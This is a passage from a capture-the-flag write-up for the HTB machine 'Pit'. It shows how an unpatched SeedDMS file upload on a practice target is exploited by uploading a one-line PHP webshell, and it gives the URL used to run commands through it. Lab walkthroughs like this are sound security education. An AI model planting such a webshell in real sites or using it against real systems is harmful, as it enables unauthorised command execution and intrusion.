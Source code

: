 ![](/assets/images/pit/adminnote.png)

The note says that he updated the site from version 5.1.10 to 5.1.15, let's see what searchsploit tells us.

![](/assets/images/pit/searchsploit.png)

It's not our lucky day, there is a Remote Command Execution vulnerability on version 5.1.11, but it seems patched now, but, is it? What if the administrator is just sending the note, but isn't actually doing his work, so let's try that vulnerability anyways. We navigate to a folder where we have permissions, and upload our webshell, which is the most simple webshell possible.

```php
<?php
system($_GET['subterranean']);
?>
```

On this case the id of our file is 32, so we can get command execution going to "http://dms-pit.htb/seeddms51x/data/1048576/32/1.php?subterranean=", there is task running that cleans the files every some minutes, so to avoid having to upload our file many times we can copy it to another directory and work with it.

![](/assets/images/pit/webshell.png)

